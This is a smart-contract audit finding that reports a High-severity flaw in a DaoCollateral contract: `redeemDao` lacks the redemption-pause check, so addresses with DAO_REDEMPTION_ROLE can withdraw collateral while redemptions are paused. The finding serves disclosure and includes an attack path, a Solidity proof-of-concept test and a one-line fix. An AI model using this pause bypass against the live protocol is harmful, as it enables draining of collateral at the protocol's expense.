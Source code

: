 Straight Lemonade Woodpecker

High

# Addresses with `DAO_REDEMPTION_ROLE` will withdraw collateral despite redemption pause

### Summary

The missing `whenRedeemNotPaused` check in `redeemDao` will cause unauthorized collateral withdrawal for the protocol as a holder of `DAO_REDEMPTION_ROLE` will bypass the emergency‐pause and redeem collateral when regular redemptions are halted.


### Root Cause

In `DaoCollateral.sol`, the [`redeemDao`](https://github.com/sherlock-audit/2025-05-usual-eth0/blob/main/eth0-protocol/src/daoCollateral/DaoCollateral.sol#L564-L581) function is declared as:

```solidity
function redeemDao(address collateralToken, uint256 amount)
    external
    nonReentrant
    whenNotPaused
{
    _requireOnlyDaoRedeemer();
    …  
}
```

It never checks the `_redeemPaused` flag (`whenRedeemNotPaused`), so privileged redeemers ignore the pause.


### Internal Pre-conditions

1. **Administrator** grants an address the `DAO_REDEMPTION_ROLE`.
2. **Pauser** calls `pauseRedeem()` to set `_redeemPaused = true`.
3. **DAO Redeemer** address holds ≥1 ETH0 and the pause flag is active.


### External Pre-conditions

*

### Attack Path

1. Pauser invokes:

   ```solidity
   daoCollateral.pauseRedeem();
   ```
2. DAO-redeemer (attacker) calls:

   ```solidity
   daoCollateral.redeemDao(collateralToken, attackerEth0Balance);
   ```
3. Despite pause, collateral tokens are transferred from the treasury to the attacker.


### Impact

The protocol’s collateral pool is drained even during an emergency pause. The attacker gains all withdrawn collateral (≈ `amount`) at the protocol’s expense.


### PoC

```solidity
    function testRedeemDaoIgnoresPause() public {
        // Setup a collateral and mint some ETH0
        uint256 amount = 100e6;
        (RwaMock token, Eth0 stbc) = setupCreationRwa1_withMint(6, amount);

        // Alice swaps tokens to get ETH0
        vm.prank(alice);
        daoCollateral.swap(address(token), amount, 0);
        uint256 stbcBal = stbc.balanceOf(alice);

        // Transfer all ETH0 to daoredeemer
        vm.prank(alice);
        stbc.transfer(daoredeemer, stbcBal);

        // Pause redemptions
        vm.prank(pauser);
        daoCollateral.pauseRedeem();
        assertTrue(daoCollateral.isRedeemPaused(), "Redeem should be paused");

        _whitelistRWA(address(token), daoredeemer);

        // daoredeemer calls redeemDao despite pause
        vm.prank(daoredeemer);
        daoCollateral.redeemDao(address(token), stbcBal);

        // daoredeemer successfully received collateral tokens
        assertEq(token.balanceOf(daoredeemer), amount, "daoredeemer should redeem despite pause");
    }
```

### Mitigation

Add the `whenRedeemNotPaused` modifier to `redeemDao`:

```diff
  function redeemDao(address collateralToken, uint256 amount)
      external
      nonReentrant
+     whenRedeemNotPaused
      whenNotPaused
{
    _requireOnlyDaoRedeemer();
    …
}
```
